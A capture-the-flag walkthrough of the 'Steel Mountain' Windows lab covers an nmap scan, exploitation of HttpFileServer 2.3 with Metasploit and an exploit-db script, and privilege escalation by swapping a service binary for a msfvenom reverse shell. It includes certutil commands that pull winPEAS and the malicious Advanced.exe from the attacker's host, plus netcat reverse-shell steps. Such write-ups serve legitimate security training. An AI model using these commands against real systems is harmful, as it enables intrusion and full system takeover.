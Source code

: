 # Steel Mountain
![](https://i.imgur.com/hc9C0Uq.png)

- running a scan to know what is going on on our targets network
## Scan results
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.70.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:09 EST
Nmap scan report for 10.10.70.217
Host is up (0.32s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-01-30T07:13:28+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-01-29T06:47:42
|_Not valid after:  2024-07-30T06:47:42
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-30T07:13:21+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4c:5d:c0:bf:49 (unknown)
| smb2-time: 
|   date: 2024-01-30T07:13:22
|_  start_date: 2024-01-30T06:47:34
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1m49s, deviation: 0s, median: 1m49s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.59 seconds
```
- From the above result i see that is is a windows OS.
- it has a web-server running on both port `80` an `8080` 

navigating to the web-server on port `80` i found a picture of the employee of the month and nothing else
![](https://i.imgur.com/Y86ZcGU.png)
But when i view the page source i see where the web-server is serving that image from there backend server and the image is saved with a human name so it has to be `employee of the month` 
![](https://i.imgur.com/UM6jW86.png)
- Nothing else to see from here so i navigate to the second web-server `8080`
## Initial access

![](https://i.imgur.com/N2Mqb8e.png)
- i was able to see the service version of the web-server from the bottom of the web-page
i then search for the version of the sever and i found the full name of the file server running and a possible exploit
![](https://i.imgur.com/EPS1vh2.png)
clicking on the first link i was able to understand what i can use to get access 
![](https://i.imgur.com/NAk7cQw.png)
From some of the other search results i noticed some website said there is an exploit for this vulnerability on metasploit, so i start up metasploit and search using the `CVE` 
![](https://i.imgur.com/7N9yhzI.png)
Then i set the needed options and run the module to get a Meterpreter shell
![](https://i.imgur.com/tTohvwL.png)
checking information about the target system i have :
![](https://i.imgur.com/FuenHzR.png)
![](https://i.imgur.com/QdO5XPZ.png)
```bash
C:\Users\bill\Desktop
```

## Privilege Escalation

To enumerate this machine, i will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities
- "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.
![](https://i.imgur.com/faBcq6J.png)

```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell
```
![](https://i.imgur.com/WB7STAx.png)

![](https://i.imgur.com/cVE0o3M.png)

>[!note] 
>The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Using  msfvenom to generate a reverse shell as an Windows executable and naming it the exact name of the `AdvancedSystemCareService9` executable file: `Advanced.exe` and using the encoder `x86/shikata_ga_nai` 
![](https://i.imgur.com/gZ2SvMq.png)
Then i uploaded the executable file into the `Iobit` Directory on `Bill's` machine
![](https://i.imgur.com/64CVha2.png)
i type `shell` in the meterpreter prompt to get a windows shell and copy the `Advanced.exe` file into the `Advanced SystemCare` directory
![](https://i.imgur.com/LrWihXA.png)
in a new terminal i started a netcat listener on the port specified in the msfvenom payload i created earlier.
![](https://i.imgur.com/bhFwzWP.png)

Then i stop and restart the `AdvancedSystemCareService9` service and i got an `NTauthority\system` reverse shell to the listener
![](https://i.imgur.com/u8RqvZl.png)

![](https://i.imgur.com/ZkAw4fW.png)

![](https://i.imgur.com/Hdqz15q.png)

# Manual Foothold and exploitation

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.

To begin we shall be using the same CVE `the exploit code from exploitdb` [here](https://www.exploit-db.com/download/39161)

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!.

- before i begin i restart the machine so all changes will reset back to default
after downloading the exploit i used nano to change some needed settings
![](https://i.imgur.com/l2GhBOB.png)
then i change the name of the Netcat binary i downloaded from `ncat.exe` to `nc.exe` because from the exploit code i see that it is calling `nc.exe` not `ncat.exe`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ mv ncat.exe nc.exe
```
1. i started a python server in the directory i have the `nc.exe` binary and also start a listener withe the port specified in the exploit the i run the exploit
![](https://i.imgur.com/ssJddjr.png)
2. i run the exploit again and this time i get a reverse shell connection
![](https://i.imgur.com/dYuLSpq.png)

![](https://i.imgur.com/o61hQWK.png)
### Privilege Escalation
I downloaded the WinpeasX64exe file from there official [Github](https://github.com/carlospolop/PEASS-ng/releases/download/20240128-3084e4e1/winPEASx64.exe)

I started another python web server in the directory i downnloaded it too and i created a directory on the target machine then use `certutil` to transfer the winPEAS binary to the target machine
![](https://i.imgur.com/c8bWfTj.png)

```powershell
certutil -urlcache -f http://10.6.92.85:80/winPEASx64.exe winPEASx64.exe
```
then i run the the winPEAS script:
![](https://i.imgur.com/fmtyfbU.png)
scrolling through the output i see this section about the unquoted path we used earlier
![](https://i.imgur.com/tCY7Sc4.png)
running `powershell -c get-service` , i can see that the service is running `sc stop AdvancedSystemCareService9` :
![](https://i.imgur.com/JOErDYc.png)

Then i moved into the Iobit directory and use `certutil` to download the advance.exe file i created earlier with msfvenom to the target machine (my python server is still running)

```powershell
certutil -urlcache -f http://10.6.92.85:80/Advanced.exe Advanced.exe
```

i copied the advanced.exe file to the `Advanced SystemCare` directory then i stop and restart the service `sc stop AdvancedSystemCareService9`then `sc start AdvancedSystemCareService9` 

- lastly i use netcat to listen on the port that is specified in my msfvenom payload and i got a higher privilege shell
![](https://i.imgur.com/xwUYqGP.png)

## Thanks For Reading
